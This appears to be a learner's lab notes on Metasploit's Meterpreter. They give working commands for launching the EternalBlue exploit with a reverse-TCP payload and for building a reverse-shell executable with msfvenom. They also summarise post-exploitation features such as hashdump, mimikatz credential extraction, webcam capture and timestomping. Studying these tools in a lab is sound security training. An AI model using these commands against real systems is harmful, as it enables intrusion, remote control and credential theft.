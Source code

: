### Notes
**List Meterpreter payloads:**
  - msfvenom --list payloads | grep meterpreter
-Common Meterpreter transports: reverse_tcp, reverse_http, reverse_https, bind_tcp, bind_named_pipe.
**Pick payload inside module:**
  - use exploit/windows/smb/ms17_010_eternalblue
  - show payloads
  - set PAYLOAD windows/x64/meterpreter/reverse_tcp
  - show options  # verify LHOST/LPORT appear
  - set LHOST 10.10.44.70
  - set LPORT 4444
  - exploit
**Generate standalone Meterpreter with msfvenom (example Windows exe):**
  - msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
  - Generate stageless/stage choice via payload name: use _reverse_tcp vs _reverse_tcp variants that include _reverse_* naming; check msfvenom list to confirm staged vs stageless.
  - If network only allows HTTPS/HTTP, choose meterpreter_reverse_https or meterpreter_reverse_http.
  - If target has a language runtime (PHP/Python/Java), prefer language-specific Meterpreter payloads (e.g., php/meterpreter_reverse_tcp) for easier execution.
  - When changing payloads, always show options afterwards — payloads add required params (LHOST/LPORT) you must set.


## Meterpreter Commands

### Concepts learned
- help in a Meterpreter session lists available commands and categories.
- Commands are grouped by purpose (core, filesystem, networking, system, UI/media, elevate, passwords, timestomp, scripting).
- Meterpreter commands run in memory (no disk files) and vary by Meterpreter flavor and target capabilities.
- Not all categories/commands will work on every target (depends on OS, runtime, hardware).

### Explanation
- Core — session management and control (background, migrate, run scripts, load extensions).
- Filesystem — browse, upload/download, edit and search files on the target.
- Networking — inspect interfaces/connections, forward ports, modify routing.
- System — process and service control, execute shell commands, reboot/shutdown, privilege escalation attempts.
- UI / Media — capture screenshots, webcam, microphone, and interactive screen sharing (if supported).
- Elevation / Credentials — privilege escalation helpers and credential extraction interfaces (hashdump, extensions like Kiwi/mimikatz).
- Timestomp & Forensics — timestamp/file attribute manipulation and forensic-related utilities.
- Scripting / Extensions — run Meterpreter scripts, background scripts, or use the Ruby/IRB REPL for advanced tasks.

### Notes
- Run help in-session to view the exact command set for that Meterpreter build.
- Use load <extension> to enable advanced credential or forensic features (e.g., Kiwi).
- Test hardware-dependent features (webcam, mic) in a lab — they may not exist on every host.
- Combine Meterpreter help with msfconsole info/show options when planning post-exploitation tasks.

